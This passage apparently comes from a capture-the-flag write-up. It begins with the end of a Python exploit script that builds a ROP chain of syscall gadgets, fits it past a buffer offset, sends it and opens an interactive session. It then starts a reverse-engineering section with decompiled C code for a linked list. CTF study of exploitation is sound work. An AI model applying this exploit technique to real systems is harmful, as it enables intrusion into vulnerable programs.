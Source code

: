 ```
    + eax_edx__ebx_edx
    + ebp_esp
    + ecx_esp
    + inc_edx*97
    + int_0x80

    + xor_edx
    + inc_edx*4
    + eax_edx__ebx_edx
    + pop_ebx
    + p32(1)
    + inc_edx*96
    + int_0x80

    + xor_edx
    + inc_edx
    + int_0x80
)

payload = fit ({
    offset-4: writable_region,
    offset: chain
})

p.sendline(payload)
p.interactive()
```

re challenge
=======================================================================
General overview of problems faced
-------------------------------------------------------------------------
Need to find out the data structure used.
Need to find out what byte does.
Need to flesh out the condition control structure of the code.
Need to figure out the while loop condition
```C
struct s {
    int data;
    struct s *next;
}
void *new() {
    struct s *next = NULL;
    int counter = 0;
    while (true) {
        if (counter <= 9) {
            struct s *data_struct = malloc(8);
            if (data_struct != NULL) {
                if (next != NULL) {
                    data_struct->next = next;
                    next = data_struct;
                } else {
                    next = data_struct;
                }
                data_struct->next = NULL;
                data_struct->data = counter + 65;
                counter++;
            } else {
                exit(1);
            }
        } else {
            return next;
        }
```